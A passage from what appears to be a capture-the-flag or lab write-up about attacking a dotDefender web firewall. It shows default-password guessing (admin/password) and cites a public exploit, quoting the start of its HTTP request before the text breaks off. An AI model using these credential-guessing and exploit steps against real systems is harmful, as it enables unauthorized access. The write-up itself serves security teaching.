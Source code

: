 So from this point forward, it pretty easy to figure out that dotDefender is installed in the /dotDefender folder. (Grab yourself a trial version, install it, done… or just Google for it)

Anyways, by navigating into the dotDefender folder, I got a prompt for a username and password (basic authentication request)

[![image](https://www.corelan.be/wp-content/uploads/2010/05/image8_thumb.png "image")](https://www.corelan.be/wp-content/uploads/2010/05/image81.png)

The login text says I should try “admin” as username.  Let’s try some obvious combinations things.  admin/admin, admin/1234, admin/password… bingo !  the admin/password combination worked fine.

That brings us to vulnerability 1 : the username is admin, and the password is “password”. The configuration of an easy-to-guess password (in combination with the fact that the admin account name was displayed on the login form), allows me to get access to the dotDefender Site Management page.  This poor configuration would allow unauthorized people to change the dotDefender configuration, potentially allowing them to bypass input restrictions.

[![image](../../../_resources/f604546aaf8845c4b0c57062b78237f9.png "image")](https://www.corelan.be/wp-content/uploads/2010/05/image5.png)

That’s nice, but it might not help me bypassing the login form, as the “Stop dotDefender” button doens’t really seem to do anything.  So I did a quick search for vulnerabilities in the dotDefender plugin, and I got this :

[![image](../../../_resources/97a10b986e7a42399e5c0bacff5816ab.png "image")](https://www.corelan.be/wp-content/uploads/2010/05/image6.png)

[http://www.exploit-db.com/exploits/10261](http://www.exploit-db.com/exploits/10261)

```
An attack looks like:

--------------------/Request/--------------------
POST /dotDefender/index.cgi HTTP/1.1
Host: 172.16.159.132
User-Agent: Mozilla/5.0 (Macintosh; U; Intel Mac OS X 10.6; en-US;
rv:1.9.1.5) Gecko/20091102 Firefox/3.5.5
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-us,en;q=0.5
Accept-Encoding: gzip,deflate
Accept-Charset: ISO-8859-1,utf-8;q=0.7,*;q=0.7
Keep-Alive: 300
Connection: keep-alive
```